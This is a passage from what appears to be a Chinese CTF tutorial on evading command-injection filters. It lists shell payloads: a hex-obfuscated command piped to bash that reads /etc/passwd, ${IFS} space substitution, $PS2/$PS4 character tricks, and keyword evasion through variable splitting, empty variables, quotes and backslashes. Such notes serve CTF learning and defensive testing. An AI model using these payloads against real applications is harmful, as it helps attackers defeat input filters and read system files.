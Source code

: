 `echo "636174202F6574632F706173737764" | xxd -r -p|bash`

![在这里插入图片描述](https://img-blog.csdnimg.cn/2021052815065447.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

## 十六进制字符序列
值得注意的是，这种方法不适用于所有PHP函数，这种变量函数方法不能用于构造诸如echo、print、unset()、isset()、empty()、include、require等系统特殊函数，但可以使用包装函数来构造它们

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528150438166.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

## 空格过滤

linux内置分隔符：\${IFS}，\$IFS，\$IFS$9

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528094008120.png#pic_center)
利用重定向符`<>`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528094206846.png#pic_center)


## >，+过滤
对于 >,+ 等 符号的过滤 ，\$PS2变量为>，\$PS4变量则为+

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528093759328.png#pic_center)

## 关键词绕过

- 通过拆分命令达到绕过的效果：`a=l;b=s;$a$b`
- 空变量绕过：`cat fl${x}ag`    `cat tes$(z)t/flag`
- 控制环境变量绕过：
先利用`echo $PATH`得到环境变量 ="/usr/local/….blablabla”
接着利用`echo ${#PATH}`得到长度
然后要哪个字符截取哪个字符就行
${PATH:0:1} ='/'
${PATH:1:1} ='u'
${PATH:0:4} ='/usr'
- 空值绕过：`cat fl""ag`    `cat fl''ag`    `cat "fl""ag"`
- 反斜杠绕过：`ca\t flag`     `l\s`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528093241745.png#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528093649570.png#pic_center)

## 空变量

\$*和\$@，\$x(x 代表 1-9)，\${x}(x>=10)：比如`ca${21}t a.txt`表示`cat a.txt`
在没有传入参数的情况下，这些特殊字符默认为空，如下:
- wh$1oami
- who$@ami
- whoa$*mi
